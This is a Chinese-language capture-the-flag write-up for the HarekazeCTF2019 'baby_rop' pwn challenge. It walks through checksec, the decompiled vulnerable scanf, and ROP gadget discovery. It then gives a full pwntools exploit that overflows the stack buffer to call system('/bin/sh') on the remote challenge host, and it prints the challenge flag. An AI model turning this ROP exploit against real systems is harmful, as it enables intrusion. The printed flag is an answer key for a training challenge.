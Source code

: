 ```yaml
---
tags:
  - BuuCTF
  - 简单
---
```


# \[HarekazeCTF2019\] baby_rop

## 前置工作

先 CheckSec，结果如下

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ checksec babyrop            
[*] '/home/ela/Pwn/babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

开启了 NX，其他没啥

用 IDA 64 打开主程序

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[16]; // [rsp+0h] [rbp-10h] BYREF

  system("echo -n \"What's your name? \"");
  __isoc99_scanf("%s", v4);
  printf("Welcome to the Pwn World, %s!\n", v4);
  return 0;
}
```

溢出点就是 `__isoc99_scanf("%s", v4);`，有 `system()` 函数了，再按一下 Shift + F12 找一下 `/bin/sh` 字符串，发现程序里面真有，`/bin/sh` 地址是 `0x601048`，于是想着构建 ROP 链

## 获得 `pop rdi; ret`

使用 ROPgadget 获取所需要的地址

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ ROPgadget --binary babyrop --only "pop|ret"
Gadgets information
============================================================
0x000000000040067c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040067e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400680 : pop r14 ; pop r15 ; ret
0x0000000000400682 : pop r15 ; ret
0x000000000040067b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040067f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400540 : pop rbp ; ret
0x0000000000400683 : pop rdi ; ret
0x0000000000400681 : pop rsi ; pop r15 ; ret
0x000000000040067d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400479 : ret
0x00000000004005fa : ret 0xfffe

Unique gadgets found: 12

```

由上可见，`0x400683` 即我们想要的

## 编写 Exp

```python
from pwn import *

io = remote("node4.buuoj.cn", 27876)
elf = ELF("./babyrop")
system_addr = elf.symbols["system"]
bin_sh_addr = 0x601048
pop_rdi_ret = 0x400683

payload = b"A"*(0x10+0x8) + pack(pop_rdi_ret, 64) + pack(bin_sh_addr, 64) + pack(system_addr, 64)
io.sendline(payload)

io.interactive()
```

这里绕了个弯，进去以后虽然有了权限，但你不知道在哪里，所以我们先运行命令 `find -name flag`，发现 Flag 在 `/home/babyrop/flag`，然后再 `cat /home/babyrop/flag`，得到 Flag 是 `flag{1ff121fc-9e8e-4892-8c6d-108740c7654a}`